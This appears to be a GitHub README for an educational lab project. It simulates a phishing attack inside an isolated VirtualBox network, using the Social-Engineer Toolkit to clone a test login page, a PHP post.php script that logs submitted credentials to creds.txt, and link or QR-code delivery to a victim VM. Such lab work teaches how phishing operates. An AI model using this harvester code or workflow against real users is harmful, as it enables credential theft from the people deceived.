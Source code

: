 
# 📁 Project: Phishing Attack Simulation in an Isolated Virtual Lab

## 🧠 Overview
This project simulates a phishing attack in a controlled, isolated environment using Kali Linux, Social-Engineer Toolkit (SET), and a Windows 10 victim machine. It demonstrates how attackers create and deploy phishing pages, capture credentials, and log user interactions — all within a secure virtual lab.

## 🎯 Objectives
- Clone a legitimate login page
- Host the phishing page on Kali Linux
- Capture submitted credentials to a local log file
- Deliver the phishing link via local IP or QR code
- Simulate real-world phishing behavior in a safe environment

## 🛠️ Tools & Technologies
- Kali Linux
- Windows 10 (VirtualBox)
- Social-Engineer Toolkit (SET)
- Apache2 Web Server
- VirtualBox Host-only Networking
- PHP (for logging credentials)
- QR Code (Optional Delivery Vector)

## 🔧 Lab Setup

| Machine        | OS          | Role             | IP Address        |
|----------------|-------------|------------------|-------------------|
| Kali Linux VM  | Kali 2023.4 | Attacker/Host    | 192.168.56.101    |
| Windows 10 VM  | Win 10 Pro  | Victim           | 192.168.56.102    |

## 📂 Attack Workflow

### 1. Phishing Page Creation
- Launched SET Toolkit on Kali
- Used “Credential Harvester” module
- Cloned `http://testphp.vulnweb.com/login.php`
- Hosted the phishing site on Apache via `http://192.168.56.101`

### 2. Credential Logging Backend
Created `post.php` to log credentials:
```php
<?php
$log = "creds.txt";
$handle = fopen($log, "a");
foreach($_POST as $var => $value) {
    fwrite($handle, $var . "=" . $value . "\n");
}
fwrite($handle, "====================\n");
fclose($handle);
header('Location: index.html');
?>
```

### 3. Delivery
- Delivered phishing link via browser on Windows VM
- Optional: generated a QR code pointing to `http://192.168.56.101`

### 4. Data Collection
- Captured credentials stored in `/var/www/html/creds.txt`

## 📸 Screenshots
- [x] Phishing page clone in browser![Screenshot 2025-05-28 220336](https://github.com/user-attachments/assets/708f5e06-93b1-4634-af36-2e65172903d2)

- [x] `creds.txt` showing harvested logins![Screenshot 2025-05-28 220336](https://github.com/user-attachments/assets/d6a6b493-0c49-488a-881d-f5b59625d488)

- [x] QR code (optional vector)![Screenshot 2025-05-28 221633](https://github.com/user-attachments/assets/fe766dd7-e04b-45f5-9097-23bf75591c41)

- [x] Network config screenshot (Host-only setup)
![Screenshot 2025-05-27 232726](https://github.com/user-attachments/assets/94b3650c-6c25-4d42-9b72-42b27740920e)

## ✅ Learning Outcomes
- Understood how phishing infrastructure works
- Built secure lab networks with VirtualBox
- Demonstrated credential harvesting and phishing vector delivery
- Practiced ethical hacking techniques within a safe environment

## 🔐 Disclaimer
This project was conducted **entirely within a private virtual lab environment**. No real users were targeted, and no real credentials were captured. This work was done for **educational purposes only** as part of cybersecurity lab development and personal growth.
